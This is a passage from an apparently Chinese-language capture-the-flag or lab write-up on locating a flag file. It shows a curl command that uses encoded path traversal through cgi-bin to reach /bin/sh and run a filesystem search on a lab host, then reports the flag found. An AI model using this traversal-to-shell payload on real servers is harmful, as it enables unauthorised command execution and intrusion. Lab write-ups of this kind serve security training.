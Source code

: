![1748164663202](image/第一层两靶标攻击与利用检测/1748164663202.png)

##### 3.4 Flag文件搜索与获取

###### 3.4.1 系统文件搜索

```bash
# 搜索系统中所有包含flag的文件
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; find / -name '*flag*' 2>/dev/null"
```

![1748164677317](image/第一层两靶标攻击与利用检测/1748164677317.png)

找到了！flag文件在 `/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`**
